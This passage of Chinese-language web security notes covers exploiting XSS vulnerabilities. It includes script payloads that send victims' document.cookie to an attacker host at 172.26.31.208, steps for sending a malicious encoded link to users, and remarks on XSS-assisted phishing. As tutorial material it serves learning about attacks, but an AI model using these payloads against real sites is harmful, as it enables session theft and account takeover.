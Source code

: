        - payload

            ```html
            <script>document.location="http://172.26.31.208/?cookie="+document.cookie</script>
            
            <script>new Image().src="http://172.26.31.208/?cookie="+document.cookie</script>
            
            ```


- 利用Ajax技术进行恶意操作:

    - 示例：赣网杯web4

- 进行端口扫描
- 获取客户端ip地址

### 反射型XSS的利用:

- 反射型xss需要自己构造恶意链接,或者恶意网页,具体payload和存储型xss一样。
- 盗取cookie：
    - 当出现漏洞的输入可以通过url输入时，比如一个get请求。
        - 即我们构造的payload也会显示在url上面，直接构造一个`http://xxx.com/?name=<script>document.location="http://172.26.31.208/?cookie="+document.cookie</script>`payload经过url编码后发送该url给用户。
        - 当用户点击该恶意链接，就会将cookie发送至172.26.32.208这台主机了。
    - **当输入无法通过url输入时，比如post请求。**
        - 需要自己构造一个恶意网页，里面构造了一个post表单，action的ur填写的是有漏洞的网站，所以这个表单的数据会发送到有漏洞的服务器（因为表单是可以跨域的）。然后将该恶意网页的url发送给用户。
- xss网络钓鱼:
    - 传统的钓鱼攻击是通过复制目标网站，然后发送该网站域名是用户来进行交互，但是这种域名不是和原网站一样的，很容易就被发现。而结合xss之后，会使得钓鱼的欺骗性大大提升。
    - 传统的网络钓鱼示例：

### DOM型XSS的利用:

### XSS平台或者xss利用工具

- 如果js代码水平不够，可以使用xss平台或者xss利用工具来利用xss漏洞。
- 本质上是这些提供一个js文件，我们在xss漏洞处加载这个js文件就可以了。
- https://xss.pt/



## **怎样插入XSS？**

- [xss cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#event-handlers):这份备忘录记录了各种各样的xss代码，以及各种各样的绕过方式和payload在哪些浏览器上可以执行。

- html中使用js代码的方式：

    - **直接写在`<script></script>`标签内:**

        ```javascript
        <script type="text/javascript">
        	document.write('这里是一行JavaScript代码1');
        </script>
        
        <script>alert(document.cookie)</script>
        ```
    